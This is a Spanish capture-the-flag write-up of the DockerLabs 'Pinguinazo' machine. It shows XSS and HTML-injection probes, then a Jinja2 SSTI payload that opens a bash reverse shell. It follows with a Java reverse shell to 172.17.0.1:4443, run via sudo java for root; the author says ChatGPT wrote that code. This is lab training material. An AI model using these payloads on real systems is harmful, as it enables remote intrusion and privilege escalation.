 ```yaml
---
title: Pinguinazo - DockerLabs
published: true
categories: DockerLabs
---
```



| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  | Fácil       | ElPinguinoDeMario | 


# Reconocimiento

Vemos el puerto 5000 abierto

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/35b5dfc9-f77e-4fac-aa69-2914f81f44fe)

Vamos a ver qué hay en ese puerto

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/c42daa28-3178-4039-b5b2-ee3464852af8)

Nos encontramos esta página web con unos campos para rellenar, vamos a pasarle el WhatWeb a ver qué nos dice

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/db5de1e5-6940-4403-b68f-d5f3638034b9)

Tenemos diferentes versiones de Werkzeug Python 

Si rellenamos los campos, vemos lo siguiente

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/0365cc9f-43a9-48e1-86d0-469867aca831)

Vamos a pasarle Gobuster a ver si encuentra algo y únicamente nos encuentra un /console que nos pide un PIN

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/ec2a6bb1-780f-4873-8e72-6a98fe2b206e)

## Explotación

En el campo PinguNombre si probamos de inyectar código malicioso como por ejemplo:

```html
<script>alert('XSS')</script>
```
vemos lo siguiente:

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/58cbb1cf-ac2f-4a3b-bacc-55f0db87fbdb)

Entonces esto es vulnerable a Cross-Site Scripting (XSS). Vamos a intentar otras vulnerabilidades web como HTML Injection

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/3915400d-568c-4341-894e-1bd3b52df8ad)
![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/6dc17939-4b56-463a-9860-c4cabe111a21)

También es vulnerable. Vamos a probar con una vulnerabilidad de SSTI

Accedemos a esta página y nos dirigimos a la parte que dice *Exploit the SSTI by calling os.popen().read(*

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2---remote-code-execution

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/f0fbca8e-710e-4720-b9f6-2abe2acf2d12)

Introducimos este código que lo encontramos en la página de Github y vemos que también es vulnerable.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/92fdfb10-c3ee-4a25-97f9-ed20be762e43)

Ahora vamos a aprovechar el SSTI para mandarnos una reverse shell y poder acceder a la máquina

```bash
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c "bash -i >& /dev/tcp/IP/PORT 0>&1"').read() }}
```

## Intrusión

Y conseguimos acceder a la máquina

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/75e05212-6ce2-4526-b05b-48a16510ddbc)

Ahora vamos a buscar la forma de escalar privilegios

## Escalada de privilegios

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/9e8f18ad-0a21-4aca-9f9d-9619980784c1)

Vemos que podemos ejecutar Java como root, en GTFOBins no aparece nada y en la máquina no aparece ningún script en Java, entonces le pedimos a ChatGPT que nos haga una Reverse Shell en Java

```java

public class shell {  
  public static void main(String[] args) {  
      Process p;  
      try {  
          p = Runtime.getRuntime().exec("bash -c $@|bash 0 echo bash -i >& /dev/tcp/172.17.0.1/4443 0>&1");  
          p.waitFor();  
          p.destroy();  
      } catch (Exception e) {}  
  }  
}
```

Lo ejecutamos de la siguiente forma

```bash
sudo -u root /usr/bin/java /tmp/r.java
```

Y ya somos ROOT

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/ce47411d-e458-481e-991f-cd2aaa94dfad)
